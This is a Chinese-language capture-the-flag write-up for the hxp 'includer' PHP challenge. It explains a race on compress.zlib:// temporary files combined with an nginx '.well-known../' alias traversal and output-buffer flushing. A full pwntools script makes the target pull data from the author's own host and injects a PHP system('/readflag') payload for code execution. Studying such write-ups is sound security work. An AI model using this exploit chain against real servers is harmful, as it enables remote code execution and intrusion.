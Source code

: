 # inlcuder

這題 code 很短:

```php
<?php
declare(strict_types=1);

$rand_dir = 'files/'.bin2hex(random_bytes(32));
mkdir($rand_dir) || die('mkdir');
putenv('TMPDIR='.__DIR__.'/'.$rand_dir) || die('putenv');
echo 'Hello '.$_POST['name'].' your sandbox: '.$rand_dir."\n";

try {
    if (stripos(file_get_contents($_POST['file']), '<?') === false) {
        include_once($_POST['file']);
    }
}
finally {
    system('rm -rf '.escapeshellarg($rand_dir));
}
```

每次訪問會生成一個隨機的資料夾，作為tmp目錄，然後結束時會砍掉

然後我們可以指定 `file_get_contents` 的來源，如果裡面沒有 `<?`，就會去執行 `include_once`

而另外從 nginx.conf 中可以看到，`.well-known`會 alias 到 `well-known/`，所以這邊可以玩老梗: `.well-known../`

<br>

這題乍看之下沒有其他洞能利用，他還把 http upload, session 等功能直接關掉

但如果從 tmp file 這個方向去挖 php-src

會發現 `compress.zlib://` 在處理時，會生成一個暫存檔: `phpXXXXXX`，而暫存檔內容就是我們餵給他的東西

(大概是這附近: https://github.com/php/php-src/blob/5d6e923d46a89fe9cd8fb6c3a6da675aa67197b4/main/streams/cast.c#L381)

所以目標就蠻明確了:

1. 上傳一個暫存檔，內容隨便給垃圾，但連線先卡著

2. 用 `.well-known../files/xxxxxxxxxxx/` 去列目錄，得到暫存檔名

3. `file_get_contents` 讀這個暫存檔

4. 由於暫存檔內容不包含 `<?`，故通過檢查

5. 再從卡著的連線，送真正要跑的 PHP Code: `<?php system("/readflag"); ?>`

6. `include` 暫存檔時，讀到的是含 php code 的

<br>

Step 3 ~ Step 6 由於必須在`file_get_contents`和`include`兩個函數中間去塞php code，所以需要去 Race 撞他

另外有個小地方要注意，第二步驟列檔案時要先有目錄名

但一般來說，php 執行完才會輸出目錄名，而這時 `rm -rf` 已經跑完了

為了解決這個問題，可以用 php 的特性，php 在 buffer 滿的時候，會先輸出，而不會等到結束才輸出

所以我們可以利用 `$_POST['name']` ，先把 Buffer 塞滿，讓他先把 `echo 'Hello '.$_POST['name'].' your sandbox: '.$rand_dir."\n";` 這段輸出

這樣我們就能在程式結束之前，先取得資料夾名了

<br>

後面的部分就照著前面的步驟去寫腳本撞，就能拿到 flag

```python
from pwn import *
import requests
import re
import threading
import time

for gg in range(100):
    
    r = remote("78.47.165.85", 8004)
    l = listen(5278)

    payload = '''POST / HTTP/1.1
Host: 78.47.165.85:8004
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Content-Length: 8098
Content-Type: application/x-www-form-urlencoded
Connection: close
Upgrade-Insecure-Requests: 1

name={}&file=compress.zlib://http://kaibro.tw:5278'''.format("a"*8050).replace("\n","\r\n")


    r.send(payload)
    r.recvuntil("your sandbox: ")
    dirname = r.recv(70)

    print("[DEBUG]:" + dirname)

    # send trash
    c = l.wait_for_connection()
    resp = '''HTTP/1.1 200 OK
Date: Sun, 29 Dec 2019 05:22:47 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 534
Content-Type: text/html; charset=UTF-8

AAA
BBB'''.replace("\n","\r\n")
    c.send(resp)


    # get filename
    r2 = requests.get("http://78.47.165.85:8004/.well-known../"+ dirname + "/")
    tmpname = "php" + re.findall(">php(.*)<\/a",r2.text)[0]
    print("[DEBUG]:" + tmpname)

    def job():
        time.sleep(0.26)
        phpcode = 'wtf<?php system("/readflag");?>';
        c.send(phpcode)

    t = threading.Thread(target = job)
    t.start()

    # file_get_contents and include tmp file
    exp_file = dirname + "/" + tmpname
    print("[DEBUG]:"+exp_file)
    r3 = requests.post("http://78.47.165.85:8004/", data={'file':exp_file})
    print(r3.status_code,r3.text)
    if "wtf" in r3.text:
        break

    t.join()
    r.close()
    l.close()
    #r.interactive()
```

flag: `hxp{I don't care what the people say I read my php-src everyday}`

